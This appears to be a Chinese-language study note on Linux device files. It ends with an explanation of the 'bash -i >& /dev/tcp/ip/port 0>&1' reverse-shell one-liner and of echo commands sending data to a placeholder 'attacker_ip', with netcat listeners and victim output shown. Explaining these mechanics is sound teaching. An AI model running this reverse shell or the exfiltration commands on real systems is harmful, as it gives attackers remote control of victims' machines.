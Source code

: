 	dd if=/dev/zero of=foobar count=2 bs=1024

	dd：用指定大小的块拷贝一个文件，并在拷贝的同时进行指定的转换。

![](images/6.jpg)

[linux命令总结dd命令详解](https://www.cnblogs.com/ginvip/p/6370836.html)

### /dev/pty

伪终端(/dev/pty/)

伪终端(Pseudo Terminal)是成对的逻辑终端设备(即master和slave设备, 对master的操作会反映到slave上)。

### /dev/tty

/dev/tty是当前进程的控制终端的设备特殊文件。

### 其他
	
	/dev/hd[a-t]：IDE设备
	/dev/sd[a-z]：SCSI设备
	/dev/fd[0-7]：标准软驱
	/dev/md[0-31]：软raid设备
	/dev/loop[0-7]：本地回环设备
	/dev/ram[0-15]：内存
	/dev/null：无限数据接收设备,相当于黑洞
	/dev/zero：无限零资源
	/dev/tty[0-63]：虚拟终端
	/dev/ttyS[0-3]：串口
	/dev/lp[0-3]：并口
	/dev/console：控制台
	/dev/fb[0-31]：framebuffer
	/dev/cdrom => /dev/hdc
	/dev/modem => /dev/ttyS[0-9]
	/dev/pilot => /dev/ttyS[0-9]
	/dev/random：随机数设备
	/dev/urandom：随机数设备

## bash -i >& /dev/tcp/ip/port 0>&1


bash -i 表示创建一个交互式的shell

```/dev/tcp/ip/port```，这个文件不是存在的，但是当你在监听这个端口的时候，对这个文件进行读写，就可以实现两个主机之间的socket通信


首先我们在攻击机开启监听，然后在Linux机器上输入下面的命令，即将指定字符通过tcp协议发送到攻击机的2333端口：

	echo 1 > /dev/tcp/attacker_ip/2333

攻击机监听:

	nc -lvp 2333
	Connection from victim_ip:49948
	1

UDP发包同理：

	echo 2 > /dev/udp/attacker_ip/2333

攻击机监听:

	nc -luvp 2333
	Received packet from victim_ip:22367 -> 192.168.0.226:2333 (local)
```
